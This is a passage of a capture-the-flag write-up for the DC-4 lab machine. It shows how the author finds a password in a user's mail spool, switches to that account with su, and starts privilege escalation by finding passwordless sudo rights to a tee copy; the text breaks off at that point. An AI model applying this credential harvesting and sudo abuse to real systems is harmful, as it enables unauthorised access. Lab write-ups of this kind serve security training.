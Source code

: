 # Lateral move (jim -> charles)

Enumerating the target will reveal an email sent from Charles to Jim, disclosing `charles`' password:

~~~
jim@dc-4:/var/spool/mail$ cat jim 
From charles@dc-4 Sat Apr 06 21:15:46 2019
Return-path: <charles@dc-4>
Envelope-to: jim@dc-4
Delivery-date: Sat, 06 Apr 2019 21:15:46 +1000
Received: from charles by dc-4 with local (Exim 4.89)
	(envelope-from <charles@dc-4>)
	id 1hCjIX-0000kO-Qt
	for jim@dc-4; Sat, 06 Apr 2019 21:15:45 +1000
To: jim@dc-4
Subject: Holidays
MIME-Version: 1.0
Content-Type: text/plain; charset="UTF-8"
Content-Transfer-Encoding: 8bit
Message-Id: <E1hCjIX-0000kO-Qt@dc-4>
From: Charles <charles@dc-4>
Date: Sat, 06 Apr 2019 21:15:45 +1000
Status: O

Hi Jim,

I'm heading off on holidays at the end of today, so the boss asked me to give you my password just in case anything goes wrong.

Password is:  ^xHhA&hvim0y

See ya,
Charles
~~~

Let's switch to `charles`:

~~~
jim@dc-4:/var/spool/mail$ su charles
Password: ^xHhA&hvim0y
charles@dc-4:/var/spool/mail$ 
~~~

# Privilege escalation

## `teehee` is a copy of `tee`

Charles can run a binary called `teehee` as `root` without password:

~~~
charles@dc-4:/var/spool/mail$ sudo -l
Matching Defaults entries for charles on dc-4:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User charles may run the following commands on dc-4:
    (root) NOPASSWD: /usr/bin/teehee
~~~

